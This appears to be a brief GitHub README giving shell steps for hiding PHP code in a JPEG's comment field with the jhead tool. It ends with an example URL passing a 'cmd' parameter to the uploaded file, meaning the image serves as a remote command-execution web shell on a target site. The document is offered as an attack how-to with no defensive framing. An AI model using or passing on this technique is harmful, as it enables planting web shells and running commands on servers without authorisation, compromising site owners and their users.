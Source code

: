 # Inject-PHP-to-JPG-Using-Jhead

$ pkg install vim or apt-get install vim

$ pkg install jhead or apt-get install jhead

$ jhead -h (for help)

$ jhead -purejpg yourfiles.jpg

$ jhead -ce yourfiles.jpg

Click ESC typed :x to save

$ jhead yourfiles.jpg

Example : site.com/youfiles.php?cmd=Command Here

![IMG_20220114_032121](https://user-images.githubusercontent.com/59664965/149403478-971702dc-e545-4865-8ebe-8251ed315f90.jpg)
